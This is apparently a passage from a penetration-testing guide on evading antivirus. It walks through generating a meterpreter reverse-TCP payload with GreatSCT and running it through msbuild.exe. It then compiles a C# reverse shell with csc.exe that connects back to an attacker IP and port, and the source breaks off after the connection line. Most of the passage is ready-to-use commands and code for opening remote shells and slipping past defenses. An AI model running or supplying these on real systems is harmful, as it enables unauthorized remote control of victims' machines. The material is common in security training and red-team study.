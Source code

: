 Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Inside GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Now **start the lister** with `msfconsole -r file.rc` and **execute** the **xml payload** with:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Current defender will terminate the process very fast.**

### Compiling our own reverse shell

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### First C# Revershell

Compile it with:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Use it with:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
```